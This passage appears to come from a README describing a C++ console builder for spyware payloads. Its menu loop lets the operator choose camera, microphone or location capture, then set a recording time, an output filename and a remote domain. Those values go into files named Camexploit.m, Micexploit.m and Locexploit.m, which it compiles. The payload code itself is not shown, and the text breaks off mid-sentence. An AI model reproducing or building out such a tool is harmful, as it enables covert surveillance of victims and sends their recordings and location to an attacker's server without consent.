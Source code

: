 ```
                } else {
                    std::cout << "You need to select Camera or Microphone first!\n";
                }
                break;
            case 5:
                if (camera || microphone) {
                    std::cout << "Enter output filename: ";
                    std::getline(std::cin, outputFilename);
                } else {
                    std::cout << "You need to select Camera or Microphone first!\n";
                }
                break;
            case 6:
                std::cout << "Enter domain name (including http:// or https://): ";
                std::getline(std::cin, domainName);
                break;
            case 7:
                if (!camera && !microphone && !location) {
                    std::cout << "Please select at least one option!\n";
                } else if ((camera || microphone || location) && (timeInSeconds.empty() || outputFilename.empty() || domainName.empty())) {
                    std::cout << "Please fill in all required fields!\n";
                } else if ( location && domainName.empty()) {
                    std::cout << "Please fill in all required fields!\n";
                } else {
                    if (camera) {
                        updateFileContent("./libs/Camexploit.m", timeInSeconds, outputFilename, domainName);
                        compileAndExport("Camera");
                    }
                    if (microphone) {
                        updateFileContent("./libs/Micexploit.m", timeInSeconds, outputFilename, domainName);
                        compileAndExport("Microphone");
                    }
                    if (location) {
                        updateFileContent("./libs/Locexploit.m", timeInSeconds, outputFilename, domainName);
                        compileAndExport("Location");
                    }
                }
                break;
            case 8:
                return 0;
            default:
                std::cout << "Invalid choice. Please try again.\n";
                break;
        }
```

This loop continues to run until the user chooses the `Exit` option. Within the loop, the console presents a menu to the user
